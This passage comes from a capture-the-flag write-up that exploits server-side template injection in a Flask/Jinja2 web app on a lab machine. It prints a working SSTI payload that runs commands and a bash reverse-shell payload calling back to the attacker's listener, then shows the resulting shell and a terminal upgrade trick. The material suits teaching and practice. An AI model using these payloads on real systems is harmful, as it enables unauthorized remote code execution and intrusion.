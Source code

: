 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)
has a good page for SSTI. I’ll use the Jinja2 section since that’s what Flask
uses.

When I solved the box originally, I used a less reliable version of a SSTI
payload, and I’ve learned of a few better ones since then. In Beyond Root,
I’ll dive into the different payloads and how I got the more difficult one
working for Bolt, as well as look at what they are doing.

For now, I’ll grab a payload like:

    
    
    {{ namespace.__init__.__globals__.os.popen('id').read() }}
    

If I set my name to that and submit, in the second email I see:

![image-20220218153059513](https://0xdfimages.gitlab.io/img/image-20220218153059513.png)

#### Shell

I am also able to `ping -c 1 10.10.14.6` and see ICMP packets in `tcpdump`,
and the results is in the email:

![image-20210908165753130](https://0xdfimages.gitlab.io/img/image-20210908165753130.png)

I’ll go for a reverse shell:

    
    
    {{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}
    

It connects:

    
    
    oxdf@hacky$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.114] 57570
    bash: cannot set terminal process group (968): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@bolt:~/demo$ 
    

I’ll do the terminal trick with `script` to upgrade my shell:

    
    
    www-data@bolt:~/demo$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@bolt:~/demo$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@bolt:~/demo$
    